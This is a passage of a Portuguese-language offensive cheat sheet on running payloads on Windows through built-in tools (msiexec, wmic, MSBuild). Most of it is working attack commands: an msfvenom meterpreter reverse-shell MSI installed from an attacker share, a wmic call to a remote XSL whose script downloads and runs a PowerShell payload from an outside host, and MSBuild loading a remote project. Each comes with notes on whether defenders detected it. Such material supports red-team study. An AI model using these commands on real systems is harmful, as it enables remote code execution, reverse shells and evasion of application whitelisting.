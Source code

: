 ```bash
\\10.8.0.3\kali\shell.bat
```
**Detectado pelo defensor**

## **MSIExec**

Atacante
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.2.0.5 lport=1234 -f msi > shell.msi
python -m SimpleHTTPServer 80
```
Vítima:
```
victim> msiexec /quiet /i \\10.2.0.5\kali\shell.msi
```
**Detectado**

## **Wmic**
```
wmic os get /format:"https://webserver/payload.xsl"
```
Processo realizando chamada de rede: **wmic.exe**\
Carga gravada no disco: **cache local do IE**

Exemplo de arquivo xsl:
```
<?xml version='1.0'?>
<stylesheet xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt" xmlns:user="placeholder" version="1.0">
<output method="text"/>
<ms:script implements-prefix="user" language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /c echo IEX(New-Object Net.WebClient).DownloadString('http://10.2.0.5/shell.ps1') | powershell -noprofile -");
]]>
</ms:script>
</stylesheet>
```
Extraído [aqui](https://gist.github.com/Arno0x/fa7eb036f6f45333be2d6d2fd075d6a7)

**Não detectado**

**Você pode baixar e executar facilmente um zombie Koadic usando o stager wmic**

## Msbuild
```
cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"
```
Processo realizando chamada de rede: **svchost.exe**\
Carga gravada no disco: **Cache local do cliente WebDAV**

Você pode usar essa técnica para contornar a Lista Branca de Aplicativos e as restrições do Powershell.exe. Pois você será solicitado com um shell do PS.\
Basta baixar isso e executá-lo: [https://raw.githubusercontent.com/Cn33liz/MSBuildShell/master/MSBuildShell.csproj](https://raw.githubusercontent.com/Cn33liz/MSBuildShell/master/MSBuildShell.csproj)
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe MSBuildShell.csproj
```
**Não detectado**

